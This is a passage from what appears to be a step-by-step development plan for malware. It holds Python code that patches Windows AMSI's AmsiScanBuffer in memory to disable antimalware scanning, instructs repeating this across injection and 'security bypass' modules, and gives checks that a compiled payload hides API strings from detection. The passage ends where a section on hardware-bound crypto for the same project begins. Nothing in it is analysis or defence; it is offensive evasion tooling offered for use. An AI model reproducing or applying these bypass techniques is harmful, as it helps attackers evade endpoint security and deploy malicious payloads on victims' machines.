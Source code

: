 ```python
                self.amsi_scan_buffer, 8, 0x40,
                ctypes.byref(old_protect)
            ):
                return False
            
            # Patch: mov eax, 0x80070057; ret
            patch = b'\\xB8\\x57\\x00\\x07\\x80\\xC3'
            ctypes.memmove(self.amsi_scan_buffer, patch, len(patch))
            
            self.VirtualProtect(
                self.amsi_scan_buffer, 8, old_protect.value,
                ctypes.byref(old_protect)
            )
            
            self.evasion_applied.add('amsi')
            return True
            
        except:
            return False
```

**Repeat for:**
- `Core/security_bypass.py`
- `Core/elite_commands/elite_inject.py`
- `Core/elite_commands/elite_vmscan.py`

**Validation:**
```bash
# Verify no GetProcAddress calls remain
grep -r "GetProcAddress" Core/ | grep -v "# " | grep -v api_hashing.py
# Expected: 0 results

# Verify no API strings in binary
strings compiled_payload.exe | grep -i "VirtualAlloc\|AmsiScanBuffer\|EtwEventWrite"
# Expected: 0 results

echo "✅ API hashing implemented successfully"
```

---

## 🔧 DAY 3: HARDWARE-BOUND CRYPTO

### **Objective:** Eliminate hardcoded crypto salt

**Files to Create:**
1. `Core/hardware_binding.py` (400 lines)

**Files to Modify:**
1. `Core/crypto_system.py`

### **Step 2.1: Create Core/hardware_binding.py**
